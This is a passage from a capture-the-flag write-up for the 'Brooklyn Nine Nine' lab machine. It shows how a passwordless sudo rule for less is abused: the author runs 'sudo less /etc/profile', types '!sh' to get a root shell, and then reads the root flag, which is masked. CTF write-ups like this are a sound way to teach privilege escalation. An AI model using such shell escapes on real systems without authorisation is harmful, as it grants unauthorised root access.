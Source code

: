 ➤ That means I can run `less` as root without a password!

***

#### 🧨 Exploit via GTFOBins

Using [GTFOBins](https://gtfobins.github.io/gtfobins/less/), I escaped into a root shell like this:

```bash
sudo less /etc/profile
```

Inside `less`, I typed:

```
!sh
```

✅ Boom — root shell.

***

### 👑 Getting the Root Flag

Once root, I did the usual:

```bash
cd /root
ls
cat root.txt
```

**Output:**

```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

***

**Root flag obtained!** Congratulations, you’ve just pwned the machine! **Root flag obtained!**
